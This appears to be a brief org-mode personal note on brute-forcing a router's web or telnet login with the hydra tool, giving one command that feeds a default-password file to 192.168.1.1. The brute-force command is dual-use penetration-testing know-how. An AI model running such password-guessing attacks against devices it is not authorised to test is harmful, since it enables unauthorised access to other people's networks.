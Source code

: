 #+STARTUP: showall
* using hydra to bruteforce router username password
google for default router passwords

pass the router password file onto hydra with the -C option
then pass the serice you are trying to crack eg http or telnet

#+begin_src sh
hydra -C routerpass.txt 192.168.1.1 http 
#+end_src


